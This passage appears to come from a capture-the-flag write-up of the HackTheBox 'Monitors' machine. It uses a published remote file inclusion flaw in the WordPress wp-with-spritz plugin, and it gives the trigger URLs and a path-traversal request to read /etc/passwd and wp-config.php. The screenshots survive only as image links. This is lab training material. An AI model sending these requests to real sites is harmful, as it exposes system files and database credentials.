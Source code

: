 Let's see if there is an exploit in exploitDB.
We find this exploit of [Remote File Inclusion](https://www.exploit-db.com/exploits/44544)
We can trigger it with
```php
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=<URL>
```
Let's read `/etc/passwd`
![Pasted image 20210714195148.png](/assets/Pasted%20image%2020210714195148.png)

So there is a user Marcus

Now let's read the `wp-config.php` file to get some secrets
```
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php
```

We see this
![Pasted image 20210714195535.png](/assets/Pasted%20image%2020210714195535.png)
Let's check the source code:
![Pasted image 20210714200023.png](/assets/Pasted%20image%2020210714200023.png)
Bingo !
